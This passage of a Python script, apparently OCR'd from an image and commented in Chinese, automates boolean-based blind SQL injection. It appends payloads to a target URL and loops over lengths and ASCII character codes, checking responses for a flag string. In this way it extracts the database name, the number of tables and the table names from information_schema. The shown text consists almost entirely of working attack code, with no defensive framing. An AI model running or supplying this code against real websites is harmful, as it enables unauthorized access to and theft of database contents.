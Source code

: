 ```python
			break
		else:
			GetDBData(url, DBTables[tableIndex], DBColumns[columnIndex])


# 获取数据库名函数
def GetDBName(url):
	# 引用全局变量DBName,用来存放网页当前使用的数据库名
	global DBName
	print("[-]开始获取数据库名长度")
	# 保存数据库名长度变量
	DBNameLen = 0
	# 用于检查数据库名长度的payload
	payload = "' and if(length(database())={0},1,0) %23"
	# 把URL和payload进行拼接得到最终的请求URL
	targetUrl = url + payload
	# 用for循环来遍历请求，得到数据库名长度
	for DBNameLen in range(1, 99):
		# 对payload中的参数进行赋值猜解
		res = conn.get(targetUrl.format(DBNameLen))
		# 判断flag是否在返回的页面中
		if flag in res.content.decode("utf-8"):
			print("[+]数据库名长度:" + str(DBNameLen))
			break
	print("[-]开始获取数据库名")
	payload = "' and if(ascii(substr(database(),{0},1))={1},1,0) %23"
	targetUrl = url + payload
	# a表示substr()函数的截取起始位置
	for a in range(1, DBNameLen+1):
		# b表示33~127位ASCII中可显示字符
		for b in range(33, 128):
			res = conn.get(targetUrl.format(a,b))
			if flag in res.content.decode("utf-8"):
				DBName += chr(b)
				print("[-]"+ DBName)
				break


#获取数据库表函数
def GetDBTables(url, dbname):
	global DBTables
	#存放数据库表数量的变量
	DBTableCount = 0
	print("[-]开始获取{0}数据库表数量:".format(dbname))
	#获取数据库表数量的payload
	payload = "' and if((select count(*)table_name from information_schema.tables where table_schema='{0}')={1},1,0) %23"
	targetUrl = url + payload
	#开始遍历获取数据库表的数量
	for DBTableCount in range(1, 99):
		res = conn.get(targetUrl.format(dbname, DBTableCount))
		if flag in res.content.decode("utf-8"):
			print("[+]{0}数据库的表数量为:{1}".format(dbname, DBTableCount))
			break
	print("[-]开始获取{0}数据库的表".format(dbname))
	# 遍历表名时临时存放表名长度变量
	tableLen = 0
	# a表示当前正在获取表的索引
	for a in range(0,DBTableCount):
		print("[-]正在获取第{0}个表名".format(a+1))
		# 先获取当前表名的长度
		for tableLen in range(1, 99):
```